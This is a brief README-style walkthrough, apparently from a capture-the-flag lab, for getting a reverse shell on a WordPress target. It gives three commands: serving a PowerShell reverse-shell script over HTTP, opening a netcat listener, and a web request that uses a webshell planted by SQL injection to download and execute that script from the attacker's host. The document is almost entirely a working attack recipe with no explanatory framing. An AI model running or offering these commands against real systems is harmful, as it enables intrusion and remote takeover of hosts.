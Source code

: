 ## haha yes shitty wordpress site go brrrrrrrrrrrrrrrrrrrrrrrrrr

### 1: host http server for target to get exploit ps1 (might need to change host in ps1 file).
```
sudo python3 -m http.server 80
```
### 2. create ncat listener for shell
```
sudo rlwrap nc -nvlp 443
```
### 3. go to the updates url we created with the sqli injection and start that script (update ip if needed)
```
http://10.10.10.167/updates.php?c=powershell%20IEX(IWR%20http://10.10.14.39/Invoke-PowerShellTcp.ps1%20-UseBasicParsing)
```
